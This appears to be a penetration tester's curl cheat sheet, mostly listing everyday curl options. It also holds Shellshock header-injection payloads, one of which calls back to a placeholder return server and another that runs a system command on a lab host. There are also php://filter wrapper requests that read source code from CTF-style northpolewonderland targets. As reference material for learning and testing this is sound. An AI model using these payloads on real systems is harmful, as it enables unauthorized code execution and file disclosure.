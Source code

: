 # curl

## cUrl usage <a id="curl-usage"></a>

| options | command |
| :--- | :--- |
| http methods | curl -XTRACE `<url>` |
| x-forwarded-for | curl -H "X-Forwarded-For: 10.0.0.1" `<url>` |
| basic authentication | curl -u `<user>:<password> <url>` |
| post form | curl -XPOST --form "b=4\_1" |
| cookie | curl --cookie "PHPSESSID=5ved46gn34dopkjhstrrfgdkk1;" `<url>` |
| cookie files \(save & send\) | curl -c /tmp/cookie.txt -b /tmp/cookie.txt `<url>` |
| set user-agent | curl -A "Mozilla" `<url>` |
| referer | curl -H "Referer: [https://www.cnn.com](https://www.cnn.com/)" `<url>` |
| json | curl -XPOST -H "Content-Type: application/json" -d "\[\["create", {"type":"trial","name":"bug"}\]\] `<url>` |
| silent | curl -s `<url>` |
| verbose | curl -v `<url>` |
| ignore certifikate issues | curl -k `<url>` |
| follow redircts | curl -L `<url>` |
| redirect output into file | curl -o `<file> <url>` |
| curl with proxy | curl -x `<proxy>:<port> <url>` |
| curl SSL V3 | curl -k -v --sslv3 `<url>` |
| curl max time \(4 seconds\) | curl -m4 `<url>` |
| file upload | curl -XPOST -F ul=30000 -F location=/tmp/upload-form-data.txt -F userfile=@/tmp/upload-file.txt `<url>` |
| shell-shock | curl -k -L -H 'User-Agent: \(\) { :;}; curl -L `<return-server>;' <url>` |
| post data from file | curl -data `'@<filename>' <url>` |
| curl output response time | curl -o /dev/null -w%{time\_connect}:%{time\_starttransfer}%{time\_total} `<url>` |
| curl output request size | curl -o /dev/null -w%{size\_request} %{size\_upload} `<url>` |
| curl output http status code | curl -o /dev/null -w%%{http\_code} `<url>` |
| curl resolve ip from other dns | curl --resolve "www.cnn.com:80:8.8.8.8" [http://www.cnn.com](http://www.cnn.com/) |

## GET Method

### Get an output <a id="get-an-output"></a>

`curl -I -s google.be`

### Ignore SSL certificat <a id="ignore-ssl-certificat"></a>

`root@nihil:~# curl https://192.168.52.138:12380/robots.txt -k`

### Get a file using https <a id="get-a-file-using-https"></a>

`curl --progress -k -L -f "https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe" > accesschk.exe`

### Get his IP <a id="get-his-ip"></a>

`curl ipinfo.io/213.181.51.36`

`url -X GET -b 'AUTH=82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cc936549b6494a6b63a1006 3b71976884152' https://analytics.northpolewonderland.com/view.php?id=339c1148-7fa8-4e68-a75c-5f2e5a40d063 > polo.mp3`

## Post Method <a id="post-something"></a>

### Post something

`curl -v 35.184.63.245 -H 'Content-Type: application/json' -X POST -d '{"date":"20161228011629+0100","udid":"221c81f4f99db9c6","debug ":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":114433648,"verbose":true}'`

### Get something <a id="get-something"></a>

`curl -X POST "http://ex.northpolewonderland.com/exception.php" -H "Content-Type: application/json" -d  '{"operation":"WriteCrashDump ","data":{"crashdump":""}}'`

### Then use php Wrappers <a id="then-use-php-wrappers"></a>

`curl -X POST "http://ex.northpolewonderland.com/exception.php" -H 'Content-Type: application/json' -d '{"operation":"ReadCrashDump", "data":{"crashdump":"php://filter/convert.base64-encode/resource=exception"}}' |base64 -d`

## Shellshock + proxy

`curl -x http://192.168.52.136:3128 -H "User-Agent: () { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.52.136/cgi-bin/status`

